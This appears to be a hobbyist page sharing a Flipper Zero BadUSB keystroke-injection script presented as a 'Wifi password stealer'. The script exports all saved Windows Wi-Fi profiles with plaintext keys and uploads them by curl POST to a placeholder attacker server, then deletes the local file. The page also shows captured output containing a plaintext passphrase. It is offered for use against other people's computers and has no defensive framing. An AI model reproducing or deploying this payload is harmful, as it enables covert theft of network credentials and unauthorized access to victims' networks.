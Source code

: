 BadUSB flipper script file :
----

Because getting on your wifi is the start of things. 



`REM Wifi password stealer
DELAY 100
GUI r
DELAY 100
STRING cmd
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 1000
REM exports the wifi passwords as XML
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
REM put all in 1 file
STRING type *.xml >> flipme.xml
ENTER
DELAY 1000
REM copys the files to host
STRING curl -X POST -F "file=@%temp%/flipme.xml" http://YOURSERVE:PORT/upload ENTER
DELAY 1000
STRING del flipme.xml
ENTER
DELAY 1000
STRING exit
ENTER`
----

Run this fun go uploader that saves the files with timestamp
GoLang because this can be run on any linux box.



Connect Flipper on laptop-usb Click and GO! (2 seconds?)  
Below saved file of all found wifi passwords with plaintext passwords on my server, so if you see a bald bearded guy around your house.... beware.


flipmeister@server:~/tmp/uploads$ cat 1706822308924902098_flipme.xml  
`<WLANProfile xmlns="[What's New in Networking | Microsoft Learn](http://www.microsoft.com/networking/WLAN/profile/v1)">
 <name>MyISP</name>
 <SSIDConfig>
 <SSID>
 <hex>5A6967676F4E6F476F</hex>
 <name>MyISP</name>
 </SSID>
 </SSIDConfig>
 <connectionType>ESS</connectionType>
 <connectionMode>auto</connectionMode>
 <MSM>
 <security>
 <authEncryption>
 <authentication>WPA2PSK</authentication>
 <encryption>AES</encryption>
 <useOneX>false</useOneX>
 </authEncryption>
 <sharedKey>
 <keyType>passPhrase</keyType>
 <protected>false</protected>
 <keyMaterial>MyWifiPassword!</keyMaterial>
 </sharedKey>
 </security>
 </MSM>
 <MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
 <enableRandomization>false</enableRandomization>
 <randomizationSeed>943798801</randomizationSeed>
 </MacRandomization>
</WLANProfile>`






